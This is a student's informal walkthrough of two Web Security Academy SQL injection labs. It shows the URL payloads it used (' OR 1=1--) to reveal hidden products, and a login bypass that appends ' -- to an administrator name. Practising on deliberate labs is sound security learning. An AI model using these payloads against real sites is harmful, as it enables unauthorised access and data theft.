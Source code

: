 This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

i grabbed the url which is https://0af100d004b4ee8484cf8bf7001900b0.web-security-academy.net/filter?category=Gifts+OR+1=1--

gave me 
![](attachments/FIRST%20ONE.png)

now modifying the url a bit 
adding ' after gifts on above url gives the results
https://0af100d004b4ee8484cf8bf7001900b0.web-security-academy.net/filter?category=Gifts%20%27%20+or+1=1%20--



# lab2
clicked on the login page 
https://0a7c008c04611bca82e7c45f0036007d.web-security-academy.net/login
and inputted admininstrator ' --
and random word for password
which solved the lab


